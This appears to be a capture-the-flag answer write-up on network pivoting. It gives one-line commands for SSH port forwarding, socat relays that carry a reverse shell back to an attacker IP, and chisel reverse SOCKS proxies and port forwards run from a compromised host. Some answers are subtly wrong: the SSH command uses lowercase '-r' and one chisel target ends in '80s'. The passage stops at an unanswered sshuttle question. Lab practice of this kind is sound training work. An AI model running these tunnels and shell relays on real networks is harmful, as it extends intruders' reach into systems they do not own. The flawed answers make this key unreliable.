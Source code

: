 > If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.

> ssh -r 8000:127.0.0.1:80 user@172.16.0.50 -fN

# Task 12  Pivoting plink.exe

> What tool can be used to convert OpenSSH keys into PuTTY style keys?

> puttygen

# Task 13  Pivoting Socat

> Which socat option allows you to reuse the same listening port for more than one connection?

> reuseaddr 

> If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

> ./socat tcp-l:8000 tcp:172.16.0.200:443

> What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?

> ./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &

# Task 14  Pivoting Chisel

> What command would you use to start a chisel server for a reverse connection on your attacking machine?

> ./chisel server -p 4242 --reverse

> What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?

> ./chisel client 172.16.0.200:4242 R:socks &

> How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.

> ./chisel client 172.16.0.200:1337 R:33060:172.16.0.100:3306 &

> If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?

> ./chisel client 172.16.0.5:4444 8000:172.16.0.10:80s

# Task 15  Pivoting sshuttle

> How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16
